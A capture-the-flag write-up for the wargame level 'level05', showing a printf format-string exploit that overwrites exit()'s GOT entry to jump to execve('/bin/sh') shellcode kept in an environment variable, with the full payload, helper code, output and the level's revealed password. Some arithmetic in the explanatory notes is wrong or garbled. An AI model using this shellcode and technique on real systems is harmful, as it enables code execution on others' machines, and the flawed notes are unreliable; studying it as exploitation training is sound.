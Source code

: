 # Level 05

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level05
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level05@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ ls
level05
```

Okay, let's run the program.

```
level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAaaaaaaaaaaaAAaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level05@OverRide:~$
```

By looking at the execution result of the program, two things can be observed,
- the uppercase letters will be turned into lower case letters
- if the length of input is too long, the output will only print 99 characters

By looking at the decompiled source (or with GDB), the program uses `printf`, so there is a chance of us using a format string attack.

```
gdb-peda$ info functions
[...]
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
[...]
0x08048370  exit
0x08048370  exit@plt
[...]
```

`exit` is also called, and we can overrite the exit() in the GOT section (Global Offset Table). Let's find the GOT address of `exit`:

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```

We now have an address for `exit` (`0x080497e0`), and we need to provide a payload that contains a shellcode.

```
# our shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

# store create payload that stores shellcode
export PAYLOAD=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

With the shellcode stored into the environment variable, a program can be written to access the address of the shellcode.

```
level05@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	printf("env address: %p\n", getenv(argv[1]));
	return (0);
}
level05@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv  # NOTE: for 32bit
level05@OverRide:~$ export PAYLOAD=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
level05@OverRide:/tmp$ ./getenv PAYLOAD
env address: 0xffffdf9f                                    # NOTE: will change per machine
### remember, the env. variable will change of the execution point, so let's run the program on different location ###
level05@OverRide:~$ /tmp/getenv PAYLOAD
0xffffdefd
```

We now have address we want to overwrite (`exit`: `0x080497e0`) and the data we want to write (`PAYLOAD`: `0xffffdefd`).

Unfortunately, `0xffffdefd` is quite large in decimal (`4294959007`), and it doesn't make sense to print that many characters in order to write the correct value with `printf`'s `%n` functionality. (Theoretically it would take approximately 7 minutes, but we'll count that as too long for our purposes.)

Instead, we'll write the number as two separate `printf` `%n` exploits by splitting the number into two `short`s instead of an `int`. Our exploit will be in the following format:

```
AAAABBBB                        %n                                   %n
    ^ Points to second short    ^ After [first short value] bytes    ^ After [second short value] bytes
^ Points to first short           Takes AAAA as "param"          Takes BBBB as "param"
```

XXX: ntoe use of `%57077u%10$hn`

Here's the process for splitting the `int` into two `short`s:

| Step                        | First `short`          | Second `short`                                                                          |
|-----------------------------|------------------------|-----------------------------------------------------------------------------------------|
| Breaking the number down    | `0xffffdf9f`<br>`^^^^` | `0xffffdf9f`<br>`------^^^^`                                                            |
| `short` value to write      | `0xffff`               | `0xdf9f`                                                                                |
| Flip endian-ness            | `                      |                                                                                         |
| Where we'll write to        | `0x080497e0`           | `0x080497e0` + 2 bytes = `0x080497e2`<br>We add 2 bytes because it's the second `short` |
| Argument offset (see below) | 10                     | 11                                                                                      |




We need to find where in memory our string is being stored in order to pass in our own input as "arguments" into `printf`. Let's find out the offset we need to pass into `printf`.

```
level05@OverRide:~$ echo "AAAABBBB %x %x %x %x %x %x %x %x %x %x %x %x" | ./level05
aaaabbbb 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161 62626262 20782520
```

So our two offsets are 10 and 11.





Because the address too big, we overwrite the target 2 bytes each time. (the first 4 bytes of address can be ignored)

for the first 2 bytes, we input the data `0xdefd - 0x8 = 0xebb5 (57077)` (because what the payload will prit out is 8 bytes=> XXXX that creates the offset of the printf already, and each address is 4 bytes XXXXXXX), then we overwrite the next two bytes `0xffff - 0xdefd = 0x2102 (8450)`

let's try out

```
level05@OverRide:~$ echo $(python -c 'from struct import pack; print(pack("I", 0x080497e0) + pack("I", 0x080497e2) + "%57077u%10$hn" + "%8450u%11$hn")') | ./level05
[...]
[...]
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
level05@OverRide:~$
```

